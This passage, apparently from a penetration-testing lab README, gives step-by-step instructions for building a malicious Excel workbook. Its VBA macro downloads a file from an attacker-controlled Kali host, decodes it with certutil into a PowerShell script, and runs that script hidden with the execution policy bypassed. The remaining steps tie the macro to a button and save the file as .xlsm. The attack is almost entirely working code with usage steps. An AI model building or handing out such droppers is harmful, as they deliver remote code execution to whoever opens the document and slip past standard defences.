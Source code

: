 1. Now create an excel file
2. go to development - visual basic
3. create a macro by pasting this:

Sub DownloadAndExec()
Dim xHttp: Set xHttp = CreateObject("Microsoft.XMLHTTP")
Dim bStrm: Set bStrm = CreateObject("Adodb.Stream")
xHttp.Open "GET", "http://IP KALI/cert.crt", False
xHttp.Send
With bStrm
  .Type = 1 '//binary
  .Open
  .write xHttp.responseBody
  .savetofile "encoded_ps1.crt", 2 '//overwrite
End With
Shell ("cmd /c certutil -decode encoded_ps1.crt decoded.ps1 & c:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe -ep bypass -W Hidden .\decoded.ps1")
End Sub

change ip e file name on line 8

4. close visual basic, create a button and associate the macro to it

![Alt text](https://github.com/mikeleord/ptx-macroLab/blob/main/excel.png?raw=true "cert")

5. save in .xlsm format
